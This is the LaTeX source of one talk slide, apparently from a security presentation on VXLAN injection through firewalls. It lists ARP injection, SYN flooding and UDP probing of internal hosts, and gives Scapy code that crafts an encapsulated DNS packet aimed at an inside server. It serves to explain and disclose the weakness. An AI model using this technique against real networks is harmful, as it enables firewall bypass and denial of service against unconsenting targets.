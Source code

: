 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list2}
\item Inject ARP traffic, send arbitrary ARP packets to hosts, connectivity DoS
\item Inject TCP like SYN traffic behind the firewall, wire speed SYN flooding
\item Inject UDP packets and get responses sent out through firewall\\
Really anything IPv4 and IPv6 can be injected
\end{list2}






{\footnotesize Attacker can send UDP DNS request to inside server on RFC1918 destination\\
Note: server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")
broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}
\end{document}
